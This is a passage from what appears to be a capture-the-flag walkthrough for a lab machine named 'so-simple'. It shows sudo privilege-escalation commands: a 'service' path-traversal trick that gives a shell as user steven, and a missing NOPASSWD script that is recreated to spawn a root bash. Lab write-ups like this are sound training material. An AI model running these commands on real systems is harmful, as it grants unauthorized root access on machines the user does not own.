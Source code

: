 The [service](https://gtfobins.github.io/gtfobins/service) binary allow to execute a shell on the user steven

```bash
sudo -u steven service ../../bin/sh
```

### Sudoers root

```perl
User steven may run the following commands on so-simple:
    (root) NOPASSWD: /opt/tools/server-health.sh
```

That tools directory does not exist, neither the script. So we just create a _/opt/tools/server-health.sh_ script that executes a bash.

```bash
mkdir /opt/tools
echo "bash" > /opt/tools/server-health.sh
chmod +x /opt/tools/server-health.sh
sudo /opt/tools/server-health.sh
```
